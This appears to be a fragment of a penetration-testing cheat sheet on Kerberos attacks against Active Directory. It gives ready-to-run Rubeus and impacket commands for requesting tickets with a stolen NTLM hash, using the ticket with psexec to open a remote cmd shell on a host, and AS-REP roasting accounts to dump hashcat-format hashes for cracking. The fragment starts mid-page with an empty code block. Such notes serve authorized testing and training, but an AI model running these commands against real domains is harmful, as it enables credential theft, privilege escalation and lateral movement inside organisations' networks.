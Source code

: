 ```powershell
# enjoy!

```

#### Option B: rubeus


```bash


#use mimikatz to obtain powershell session as admin if NTLM hash is available

Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap] 


```


#### Option c: impacket

```bash

impacket-getTGT scorp.com/Administrator -hashes :9bff06fe611486579fb74037890fda96 -dc-ip 192.168.219.154

# perform some magic to inject ticket to ccache

export KRB5CCNAME=/path/to/your/credential/cache

# start impackets psexec an use ccache

impacket-psexec -no-pass -k -dc-ip 198.xxx.xxx.xxx scorp.com/admin@PC1 cmd

```


### Brute Force ASREP roast

#### ASREP remotely

```bash
impacket-GetNPUsers corp.local/user101:Password101 -no-pass -format hashcat -outputfile spooky.hash -dc-ip "10.10.43.76" -request
```


#### ASREP locally

`.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast`

* crack hashes on Windows

after copy-pasting sanitize the file removein spaces and newlines

`cat hashes.asreproast | tr -d '\n' | tr -d ' '`
